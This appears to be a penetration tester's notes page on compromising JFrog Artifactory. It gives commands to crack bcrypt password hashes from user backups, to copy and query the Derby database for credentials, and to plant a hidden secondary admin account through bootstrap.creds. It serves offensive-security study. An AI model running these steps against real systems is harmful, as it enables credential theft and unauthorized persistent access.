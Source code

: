 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: test
---
```

<span style="font-size: 35px; color:red"><b>Artifactory</b></span>

Binary repository manager that stores software packages and other binaries installed in _/opt/jfrog_. If it's running, it will run as webserver on port 8082 locally or port 8081 remotely.
To prevents developers from getting untrusted or unstable binaries directly from the Internet.

To Start:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To see whether an Artifactory repo is running on the system:
```shell
ps aux | grep artifactory
```

Login page at `http://<domain>:8082/`.


#### Credentials
The open-source version of Artifactory creates database backups for the user accounts at /<Artifactory_Folder>/var/backup/access in JSON format.
The password is in bcrypt format and can be cracked as follows:
```shell
sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Compromising Artifactory Database
If there are no backup files available, we can access the database itself or attempt to copy it and extract the hashes manually.
Copy the database to a temporary location and unlock it:
```shell
sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
sudo chmod 755 /tmp/hackeddb/derby
sudo rm /tmp/hackeddb/derby/*.lck
```

If it's using Apache's Derby, install Apache's derby tools. `ij` tool allows you to handle the database and query it:
```shell
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
```
From there:
```shell
select * from access_users;
```
and you'll see the passwords.

#### Adding a Secondary Artifactory Admin Account
This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires _root_ or _sudo_ access.
In there, create a `bootstrap.creds` like so:
```shell
haxmin@*=haxhaxhax
```
creating a new user `haxmin` with password `haxhaxhax`. Set permissions to 600:
```shell
sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```
Now reboot the process:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To check if everything went smooth:
```shell
sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```
